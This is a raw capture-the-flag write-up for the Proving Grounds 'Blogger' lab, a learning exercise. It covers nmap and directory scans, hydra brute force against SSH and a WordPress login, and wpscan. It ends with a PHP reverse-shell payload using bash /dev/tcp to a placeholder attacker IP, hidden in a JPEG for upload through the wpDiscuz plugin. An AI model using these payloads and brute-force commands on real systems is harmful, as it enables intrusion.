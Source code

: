 # Blogger [Proving Grounds Play]

<sub>_This is a raw write-up. It accounts for every step taken throughout the challenge, whether or not it was successful. So, expect a lot of rabbitholes and frustration. At the time of writing this, I don't even know if I've solved the challenge myself. You might see a flag somewhere titled **Assisted by [write-up link]** which means I used someone else's write-up to complete the challenge. Being a responsible learner, I'm trying my best to accept as little help as possible and only when I'm out of ideas._</sub> 

## _Manual Exploitation_

First step would be defining the target machine's IP inside a variable named `targ3t`:

```
targ3t=192.168.194.217
```

And checking that it works:

```
echo $targ3t
```

Now let's run an `nmap` scan on this target and see where we land:

```
nmap -A $targ3t -oN nmap.a.scan -vv
```

So we basically have an Apache web server at port `80` and an SSH at port `22`. First, I'll explore the website and navigate to:

```
firefox http://$targ3t
```

First look tells us it's a landing page for some programmer named James, it has seemingly non-functional login, registration and contact forms along with some information about the programmer in question. I am going to push this website through `gobuster` and see what comes out:

```
gobuster dir -u $targ3t -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

A number of links has been returned, specifically with a status code `301` there's first four: `/images/`, `/assets`, `/css`, `/js`. So far all of them seem to be files for the website's content. 

While we're waiting for `gobuster`, I believe we can check exploit database for the Apache web server version this website is running on:

```
searchsploit Apache 2.4.18
```

One of the exploits that popped up, matches the version number. It is a privilege escalation exploit, however:

```
cp /usr/share/exploitdb/exploits/linux/local/46676.php exploit.php
head -20 exploit.php
```

This exploit works by uploading it to the server and then navigating to it as a web resource. We haven't gained any foothold yet, so privilege escalation can wait. Once we're in, we can try it.

Now that `gobuster` scan is done with no usable results, I will push this site through `feroxbuster` to hopefully check for something more:

```
feroxbuster -u http://$targ3t -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o ferox.scan
```

An interesting URL `http://192.168.194.217/assets/fonts/blog/` came up. There are some blog posts on it on web security by a user named `j@m3s`. This makes me wonder if we can hack into this user's SSH under this username and a `rockyou.txt` wordlist:

```
hydra -t 4 -l j@m3s -P /usr/share/wordlists/rockyou.txt $targ3t ssh
```
```
[ERROR] target ssh://192.168.194.217:22/ does not support password authentication (method reply 4).
```

Let's think, where else could this username be used. There is a login form on the website's home page, let's see its POST request:

```
scheme:     http
host:       192.168.194.217
filename:   /
```

I don't think any of this is usable, the login form is indeed non-functional, I think. Now that I look at the blog web page again, I see there is a link to a `Log in` page on the bottom of the site. However it routes to `blogger.pg/assets/fonts/blog/wp-login.php`, which we can't reach. If we insert `$targ3t` instead of the domain `blogger.pg`, we will be able to open this page:

```
firefox $targ3t/assets/fonts/blog/wp-login.php
```

When I try to test the login form with test credentials, it seems to revert back to `blogger.pg` domain. I think we can resolve this temporarily with ease:

```
sudo echo -e "$targ3t\tblogger.pg" >> /etc/hosts
```

Now it all works! Let's try to login with test credentials and obtain a raw POST request payload:

```
log=test&pwd=test&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblogger.pg%2Fassets%2Ffonts%2Fblog%2Fwp-admin%2F&testcookie=1
```

Now that we have this, we can craft a brute force command for `hydra` to try and check a possible password for user `j@m3s`.

```
hydra -t 12 -l j@m3s -P /usr/share/wordlists/rockyou.txt $targ3t http-post-form "/assets/fonts/blog/wp-login.php/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A2F%2blogger.pg%2Fassets%2Ffonts%2Fblog%2Fwp-admin%2F&testcookie=1:F=ERROR" -V
```

This doesn't seem to be working as there is no password that matches this username from the `rockyou.txt` list. 

_<sub>Assisted by [write-up](https://cyberarri.com/2024/03/17/blogger-pg-play-writeup/):</sub>_

Let's try to use a `wpscan` as this is a wordpress website to see if there are any interesting plugins we could use:

```
wpscan --url http://$targ3t/assets/fonts/blog -t 12 --plugins-detection aggressive -v -o wp.scan
```

In the identified plugins we can see `wpdiscuz`, which has a capability to upload comments and images. I'm wondering if I can upload a php reverse shell as an image and send a request to it:

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/443 0>&1'"); __halt_compiler(); ?>
```

I used the above code as a PHP reverse shell and I will try to inject it into a `boat.jpg` I have downloaded the following way:

```
jhead -ce boat.jpg
```

Now I will navigate to one of the blog posts on the blog:

```
firefox https://blogger.pg/assets/fonts/blog/?p=29
```

And try to attach this `boat.jpg` to a comment and post it.
